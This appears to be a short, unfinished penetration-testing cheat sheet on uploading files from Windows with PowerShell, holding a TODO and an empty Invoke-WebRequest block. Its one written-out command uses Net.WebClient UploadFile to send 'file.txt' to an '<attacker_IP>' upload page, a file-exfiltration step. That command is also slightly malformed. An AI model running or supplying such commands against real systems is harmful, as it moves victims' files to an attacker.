# Upload

## 01 - Upload

### 1.1 - Powershell

TODO: Fill this info

#### 1.1.1 - Invoke-WebRequest

```
PS C:\> 
```

#### 1.1.2 - UploadFile

```
PS C:\> New-Object Net.WebClient.UploadFile('http[s]://<attacker_IP>/upload.php', 'file.txt')
```